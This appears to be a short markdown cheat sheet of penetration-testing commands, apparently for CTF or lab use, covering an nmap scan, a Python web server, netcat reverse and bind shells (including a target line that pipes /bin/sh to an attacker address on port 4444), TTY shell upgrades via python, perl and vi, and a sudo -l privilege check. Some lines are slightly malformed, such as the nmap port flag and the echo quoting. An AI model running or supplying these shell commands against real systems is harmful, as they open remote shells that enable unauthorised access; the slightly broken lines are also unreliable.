 # NMAP
* nmap -T4 -p -A <ip>

# Python Webserver
* python3 -m http.server <port>

# Netcat 
## Reverse Shell
### Attacker Listener
* nc -nlvp 4444
### Target Connecting
* nc 192.168.1.2 4444 -e /bin/sh
## Bind Shell
### Attacker Connecting
*nc 192.168.1.2 4444
### Target Listener
* nc -nvlp 4444 -e /bin/sh

# TTY Shell
## Using python
* python -c 'import pty; pty.spawn("/bin/sh")'
* python -c 'import pty; pty.spawn("/bin/bash")'
## Echo
* echo 'os.system('/bin/bash')'
## sh
* /bin/sh -i
## bash
* /bin/bash -i
## Perl
* perl -e 'exec "/bin/sh";'
## From within VI
* :!bash

# Privilege Escalation Check
* sudo -l

# OpenVPN
* sudo openvpn <file>.vpn




